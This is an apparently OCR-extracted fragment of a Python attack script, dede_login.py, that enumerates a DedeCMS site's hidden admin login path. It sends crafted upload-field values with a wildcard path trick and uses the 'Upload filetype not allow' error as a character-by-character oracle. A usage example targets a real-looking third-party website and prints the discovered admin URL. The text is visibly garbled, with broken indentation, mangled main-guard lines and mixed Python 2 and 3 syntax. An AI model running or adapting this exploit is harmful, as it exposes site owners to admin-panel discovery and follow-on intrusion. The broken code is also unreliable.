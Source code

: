                                             flag = 1
                                            back_dir = pre
                                            data["_FILES[tools][tmp_name]"] = "%s{p}&lt;&l../img/adminico.gif"%prefix
                                            break
                                    else:
                                            data["_FILES[tools][tmp_name]"] = "%s{p}&lt;&l../img/adminico.gif"%prefix
                    #print("[+] 前缀为：",back_dir)
                    flag = 0
                    for i in range(30):
                            if flag:
                                    break
                            for ch in characters:
                                    if ch == characters[-1]:
                                            flag = 1
                                            break
                                    data["_FILES[tools][tmp_name]"] = data["_FILES[tools][tmp_name]"].format(p=back_dir+ch)
                                    r = requests.post(self.target+f_name, data=data)
                                    if "Upload filetype not allow !" not in r.text and r.status_code == 200:
                                            back_dir += ch
                                            #print("[+] ",back_dir)
                                            data["_FILES[tools][tmp_name]"] = "%s{p}&lt;&l../img/adminico.gif"%prefix
                                            break
                                    else:
                                            data["_FILES[tools][tmp_name]"] = "%s{p}&lt;&l../img/adminico.gif"%prefix
                    show_message['Login_url'] = self.target+"/%s"%back_dir

                    print show_message
                    return show_message
            else:
                    check_message['Enumerate'] = False
                    print check_message
                    return check_message 
```

def main(url):

N = Bute_Login(url)

N.Bute()

‘’’

usage:        python .\dede_login.py -u [http://www.chuheautism.com](http://www.chuheautism.com)

output:

(‘testing’, ‘a’)

(‘testing’, ‘b’)

(‘testing’, ‘c’)

{‘Login_url’: ‘[http://www.chuheautism.com/cha](http://www.chuheautism.com/cha)’}

‘’’ `if **name** == ‘**main**’:

if sys.argv[1] == “-u”:

main(sys.argv[2])` 
```